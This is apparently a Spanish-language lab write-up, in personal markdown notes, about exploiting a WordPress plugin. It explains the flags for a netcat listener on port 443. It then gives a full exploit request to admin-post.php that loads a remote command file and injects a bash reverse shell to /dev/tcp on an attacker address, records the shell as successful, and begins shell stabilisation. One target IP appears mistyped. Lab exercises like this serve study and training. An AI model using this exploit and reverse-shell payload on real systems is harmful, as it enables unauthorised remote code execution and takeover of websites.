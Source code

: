 ```
- `-l`: Esta opción indica que se debe poner en modo escucha o "listening". El comando se quedará en espera de conexiones entrantes.
   
- `-v`: Activa el modo "verbose" o detallado, lo que significa que mostrará información adicional y mensajes de estado durante la ejecución.
   
- `-p 443`: Especifica el número de puerto en el que se establecerá el listener. En este caso, se utiliza el puerto 443, que es comúnmente utilizado por el protocolo HTTPS.
   
- `-n`: Deshabilita la resolución de nombres, lo que significa que no intentará resolver direcciones IP en nombres de host.
   
- `-vp`: Combinación de las opciones `-v` y `-p`, para activar el modo verbose y especificar el número de puerto.
```

![[Captura de pantalla 2023-06-22 143226.png]]

==Mandamos la petición web.

![[Captura de pantalla 2023-06-22 143240.png]]
```
http://102.168.153.128/wordpress/wp-admin/admin-post.php?wsp_debug=load_options&swp_url=http://192.168.153.129/comando1.txt&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.152.129/443 0>%261

- `http://102.168.153.128/wordpress/wp-admin/admin-post.php` es la URL a la que se realiza la solicitud. Parece ser una ruta dentro de un sitio de WordPress, específicamente la ruta `admin-post.php` en el directorio `wp-admin`.

- `?` indica el inicio de los parámetros de la URL.

- `wsp_debug=load_options` es un parámetro que indica que se desea cargar opciones de depuración.

- `&` se utiliza para separar múltiples parámetros en la URL.

- `swp_url=http://192.168.153.129/comando1.txt` es otro parámetro que especifica una URL (`http://192.168.153.129/comando1.txt`) a la que se está haciendo referencia.

- `cmd=bash -c "bash -i >%26 /dev/tcp/192.168.152.129/443 0>%261"` es el tercer parámetro. Parece ser un comando que se pasa al servidor.
```

![[Captura de pantalla 2023-06-22 144424.png]]
==Reverse Shell exitosa.

---
# Tratamiento de la TTI (1/2)

```
echo $TERM
export TERM=xterm
```
